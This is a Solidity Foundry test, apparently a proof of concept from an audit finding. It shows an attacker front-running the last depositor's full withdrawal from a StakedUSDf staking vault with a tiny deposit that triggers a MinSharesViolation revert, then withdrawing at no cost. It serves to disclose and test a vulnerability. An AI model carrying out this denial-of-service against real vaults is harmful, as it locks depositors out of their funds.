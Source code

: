 ```solidity
        stakedUsdf = StakedUSDf(address(stakedUsdfProxy));

        // Deploy StakingRewardsDistributor
        distributor = new StakingRewardsDistributor(stakedUsdf, IERC20(address(usdf)), admin, operator);

        // Deploy minter with treasury as fee recipient
        minter = new ClassicMinterV1(admin, address(usdf), treasury, backendSigner);

        // Setup basic roles
        usdf.grantRole(MINTER_ROLE, admin);
        usdf.grantRole(MINTER_ROLE, address(minter));

        // Grant REWARDER_ROLE to distributor
        stakedUsdf.grantRole(REWARDER_ROLE, address(distributor));

        stakedUsdf.setCooldownDuration(0); // NO COOLDOWN.

        // Mint `user1` and `attacker` some USDf.
        usdf.mint(address(distributor), 1000e18);
        usdf.mint(address(attacker), 2000e18);
        usdf.mint(address(user1), 2000e18);

        vm.stopPrank();
    }

    function testDoSLastWithdrawal() public {
        // User1 deposits into staking contract.
        vm.startPrank(user1);
        usdf.approve(address(stakedUsdf), 1000e18);
        console2.log("User1 deposits 1000e18 USDf.");
        stakedUsdf.deposit(1000e18, user1);
        vm.stopPrank();

        // At this point we can assume that times passes and only one depositor has remained on the vault, the last user who tries to withdraw fully out of the vault.
        // Attacker has seen the tx of user1 and will DoSed it with no cost.

        console2.log("User1 submits transaction to withdraw fully out of the vault now.");

        // Here, attacker frontruns user1's full withdrawal by depositing just enough so `MinSharesViolation` error to be triggered.
        vm.startPrank(attacker);
        console2.log("Attacker frontruns him and deposit 0.5e18 USDf.");
        usdf.approve(address(stakedUsdf), 0.5e18);
        stakedUsdf.deposit(0.5e18, attacker);
        vm.stopPrank();

        // User1 is the last withdrawer and wants to withdraw fully but his withdraw will revert.
        vm.startPrank(user1);
        uint256 allShares = stakedUsdf.balanceOf(user1);
        console2.log("User1 withdrawal is reverting due to `MinSharesViolation` error.");
        vm.expectRevert();
        stakedUsdf.redeem(allShares ,user1, user1);
        vm.stopPrank();

        // Attacker backruns the tx with his withdrawal and at no cost, he has effectivelly DoSed the withdraw of the last depositor of the vault with just 0.5e18.
        vm.startPrank(attacker);
        console2.log("Attacker withdraws his 0.5e18 USDf and effectivelly has DoSed the last withdrawal of the vault.");
        stakedUsdf.withdraw(0.5e18, attacker, attacker);
        vm.stopPrank();
```
